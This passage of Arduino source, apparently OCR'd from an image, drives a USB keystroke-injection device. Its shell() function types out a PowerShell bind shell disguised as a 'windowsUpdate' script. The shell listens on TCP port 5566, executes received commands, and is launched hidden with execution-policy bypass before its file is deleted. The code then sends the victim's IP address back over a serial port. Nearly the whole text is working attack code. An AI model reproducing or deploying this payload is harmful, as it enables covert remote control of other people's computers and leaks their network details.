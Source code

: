 ```js
    }
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void shell() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("cmd");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("set updateSource=\"function windowsUpdate{$stream=$client.GetStream();[byte[]]$bytes=0..65535^|^%{0};$sendbytes=([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');$stream.Write($sendbytes,0,$sendbytes.Length);$sendbytes=([text.encoding]::ASCII).GetBytes('PS '+(Get-Location).Path+'^>');$stream.Write($sendbytes,0,$sendbytes.Length);while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$EncodedText=New-Object -TypeName System.Text.ASCIIEncoding;$data=$EncodedText.GetString($bytes,0,$i);try{$sendback=(IEX -Command $data 2^>^&1 ^| Out-String );}catch{}$sendback2  = $sendback + 'PS ' + (Get-Location).Path + '^> ';$x = ($error[0] ^|Out^-String);$error.clear();$sendback2 = $sendback2 + $x;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();if($listener){$listener.Stop();}$listener=[System.Net.Sockets.TcpListener]5566;$listener.start();rm update.ps1;$client=$listener.AcceptTcpClient();windowsUpdate\"");
    delay(500);

    Keyboard.println("echo %updateSource:~1,1014%>update.ps1");
    delay(200);
    Keyboard.println("powershell -ep bypass -windowstyle hidden -file update.ps1");
    delay(500);

    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("Get-NetIPAddress -AddressFamily IPv4 -suffixorigin dhcp|select ipaddress|Out-String -OutVariable d");
    delay(200);
    Keyboard.println("$c=((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\"|Where{$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$c=[int]$c[$c.length-1].replace(\")\",\"\")");
    delay(200);
    Keyboard.print("$s=new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$c");
    Keyboard.println(",9600,None,8,one");
    delay(200);
    Keyboard.println("$s.Open()");
    delay(200);
    Keyboard.println("$s.Write(\"$d\")");
    delay(200);
```